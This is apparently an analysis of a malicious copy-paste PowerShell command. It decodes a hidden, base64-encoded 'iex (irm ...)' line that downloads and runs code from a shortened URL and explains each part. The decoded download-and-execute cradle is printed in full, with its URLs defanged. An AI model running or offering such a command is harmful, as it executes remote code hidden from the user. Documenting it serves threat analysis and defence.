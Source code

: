 ## Copied code(Added [])
powershell -enc aAA7AGkAZQB4ACgAaQByAG0AIABoAHQAdABwAHMAOgAvAC8AdABpAG4AeQB1AHIAbAAuAGMAbwBtAC8AMwA1AG4AcAByAGsANAB[q]ACkA -w h

**powershell:** Calling powershell  
**-enc:** Decode in Base64  
**-w h:** Don't show window  

**Decoded string(added []):** iex (irm https://tinyurl[.]com/35nprk4j)  

**iex:** This is an alias for Invoke-Expression, which executes a command passed as a string  
**irm:** This is an alias for Invoke-RestMethod, which retrieves data from a web resource

**Linked site:** https://b0o[.]lol/YRBJh (404 Not Found Error)
